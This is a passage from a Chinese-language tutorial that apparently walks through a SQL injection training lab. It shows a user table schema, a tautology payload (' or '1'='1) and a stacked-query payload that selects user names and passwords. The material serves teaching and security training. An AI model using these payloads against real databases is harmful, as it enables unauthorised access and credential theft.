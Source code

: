 ```
CREATE TABLE user_system_data (
    userid int not null primary key,
    user_name varchar(12),
    password varchar(10), 
    cookie varchar(30));
```
4.尝试从表中获取所有数据。

可以使用简单的永真式sql注入：
```
' or '1'='1
```
![sqli-advanced-02](images/lab_sqli/sqli-advanced-02.png)


5.尝试构建额外的查询语句。

第一种方式，使用语句分割符、格外的SQL语句和注释符。

```
#例如
' or '1'='1' ; SELECT userid,user_name,password FROM user_system_data  --
```
![sqli-advanced-03](images/lab_sqli/sqli-advanced-03.png)
